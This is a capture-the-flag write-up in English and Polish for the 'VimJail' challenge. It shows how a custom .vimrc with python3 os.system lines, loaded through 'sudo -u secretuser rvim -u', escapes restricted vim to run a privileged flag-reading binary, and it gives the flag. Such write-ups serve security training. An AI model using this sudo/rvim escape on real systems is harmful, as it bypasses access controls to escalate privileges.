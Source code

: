 # VimJail (pwn)

###ENG
[PL](#pl-version)

In the task we get credentials to log-in on the server via SSH.
We are `ctfuser` user and we can see that there is `flagReader` binary in our home, but with it's only executable for `secretuser`.
The binary also has GUID bit set, so it can read flag in the `/.flag`.

By checking sudoers we notice that, as expected from the task name, we can sudo on secretuser when running `rvim`:

```
sudo -u secretuser rvim
```

The problem is that rvim restricts shell commands execution, so we can't simply run the `flagReader`.
It took us a lot of time to figure this out but finally we noticed that we can use a custom `.vimrc` file when starting rvim, and commands in such file will be executed with the current user provileges!

So by using file:

```
python3 import os
python3 os.system("/home/ctfuser/flagReader /.flag")
```

And running: 

```
sudo -u secretuser rvim -u ourvimrcfile
```

gives the flag `flag{rVim_is_no_silverbullet!!!111elf}`

###PL version

W zadaniu dostajemy dane do logowania na serwer po SSH.
Logujemy się jako `ctfuser` i możemy zobaczyć ze ` home jest binarka `flagReader`, ale można jej użyć tylko jako `secretuser`.
Binarka dodatkowo ma ustawiony GUID i może odczytać flagę z `/.flag`.

Po sprawdzeniu listy sudoers widzimy, że, zgodnie z oczekiwaniami po nazwie zadania, możemy zrobić sudo na secretusera uruchamiając `rvim`:

```
sudo -u secretuser rvim
```

Problem polega na tym, że rvim nie pozwala na uruchamianie komend shell więc nie możemy po prostu uruchomić `flagReader`.
Zajęło nam dość sporo czasu wpadnięcie na rozwiązanie, ale finalnie zauważyliśmy, że można przy starcie podać własny plik `.vimrc` a komendy z tego pliku zostaną wykonane z uprawnieniami aktualnego użytkownika!

Więc używając pliku:

```
python3 import os
python3 os.system("/home/ctfuser/flagReader /.flag")
```

I uruchamiając:

```
sudo -u secretuser rvim -u ourvimrcfile
```

Dostajemy flagę `flag{rVim_is_no_silverbullet!!!111elf}`
